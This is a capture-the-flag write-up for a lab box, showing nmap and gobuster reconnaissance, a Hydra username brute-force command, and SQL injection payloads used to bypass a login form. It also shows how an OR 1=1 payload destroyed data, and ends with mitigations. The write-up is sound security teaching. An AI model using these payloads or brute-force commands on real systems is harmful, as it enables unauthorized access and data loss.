 [Lesson Learned?](https://tryhackme.com/room/lessonlearned)

**Difficulty:** Easy 
**Objective:** Identify and exploit SQL injection safely to bypass login and retrieve the flag without triggering destructive queries.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.157.160  
**Service/Ports:** 22/SSH, 80/HTTP  
**Entry Point:** SQL injection on login form  
**Privilege Escalation:** Not applicable  
**Outcome:** Login bypass via crafted injection using valid username, flag retrieved

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Post-Exploitation  
5. Reporting

---

## 3. Reconnaissance  
Ran Nmap scan:  
nmap -sS -sV 10.10.157.160  
Result:  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1  
80/tcp open  http    Apache httpd 2.4.54 (Debian)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

---

## 4. Enumeration  
Used Gobuster to look for web directories:  
gobuster dir -u http://10.10.157.160/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
Result:  
/manual (Status: 301)

---

## 5. Exploitation  
Initial attempt:  
Tried SQL injection with `' OR '1'='1' --`  
Resulted in:  
- Warning about OR 1=1 causing DELETE statements to wipe data  
- Flag was deleted, and the box had to be reset  
Lesson: OR 1=1 can be dangerous, especially when queries are reused in UPDATE/DELETE contexts

After resetting the box, ran Hydra to brute-force usernames:  
hydra -L /usr/share/wordlists/names.txt -p test123 10.10.102.103 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password" -f -V -o found_users.txt  
Found users:  
arnold, karen, kelly, marcus, martin, naomi, patrick, sophia, stuart, veronica, etc.

Crafted safer SQL injection using known username:  
karen' AND ''=''--  
This worked, bypassing login and displaying the flag  
App logic was likely expecting 1 exact matching row, and this injection preserved that behavior

---

## 6. Privilege Escalation  
Not applicable — goal was to bypass login and retrieve the flag only

---

## 7. Post Exploitation  
No additional system access or escalation required  
Confirmed success through displayed flag and instructional message  
Message warned again about destructive OR 1=1 injections

---

## 8. Flags / Proof  
User Flag: THM{example_flag_here}  
Root Flag: N/A

---

## 9. Mitigations  
| Vulnerability              | Risk   | Suggested Mitigation                          |  
|---------------------------|--------|-----------------------------------------------|  
| SQL Injection              | High   | Use prepared statements / parameterized queries |  
| Weak error messages        | Medium | Avoid leaking backend logic in app responses   |  
| Brute-forceable usernames  | Medium | Rate-limit login attempts, implement CAPTCHA   |

---

## 10. Notes  
Time spent: ~30 minutes  
Tools used: nmap, gobuster, hydra, browser  
Lessons learned:  
- OR 1=1 is risky and can cause unintentional data destruction  
- Safer SQL injections can target logic paths without mass row selection  
- Always understand the backend query context before testing injections















